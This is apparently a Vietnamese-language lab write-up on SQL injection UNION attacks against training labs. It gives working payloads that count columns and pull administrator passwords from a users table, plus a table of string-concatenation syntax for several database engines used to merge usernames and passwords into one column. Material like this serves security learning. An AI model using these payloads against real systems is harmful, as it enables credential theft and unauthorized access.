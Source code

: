 - Xác định kiểu dữ liệu
![alt text](img/image-40.png)

- Tiến hành khai thác dựa trên dữ liệu đã biết. Payload:
`Pets' union select null,password from users where username='`administrator`'-- -`
![alt text](img/image-43.png)
![alt text](img/image-44.png)

___

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

**Thực hiện**
- Xác định số cột:
`category=Gifts' union select null,null -- -`
![alt text](img/image-45.png)

- Xác định kiểu dữ liệu:
![alt text](img/image-46.png)
=> cột thứ 2 là kiểu dạng `string`
=> cột thứ nhất là kiểu `integer`

- Chúng ta cần lấy 2 cột từ bảng users, đều là dạng `string` nhưng bảng category chỉ có 1 cột có kiểu dữ liệu là `string` => phải ghép 2 cột từ bảng users lại.
- Có 1 phương pháp string concatenation để ghép 2 cột lại với nhau: 
![alt text](img/image-47.png)

**Notess**
String concatenation được sử dụng để ghép nối hai cột (username và password) lại với nhau thành một cột duy nhất. Vì ứng dụng chỉ hiển thị một cột có kiểu dữ liệu chuỗi, nên cần phải kết hợp hai giá trị thành một chuỗi liên tục. Cú pháp ghép nối phụ thuộc vào hệ quản trị CSDL:

| **Database**   | **String Concatenation Query**         |
|---------------|--------------------------------|
| **Oracle**    | `'foo'||'bar'`                 |
| **Microsoft SQL Server** | `'foo'+'bar'`               |
| **PostgreSQL** | `'foo'||'bar'`                 |
| **MySQL**      | `'foo' 'bar'` <br> `CONCAT('foo','bar')` |
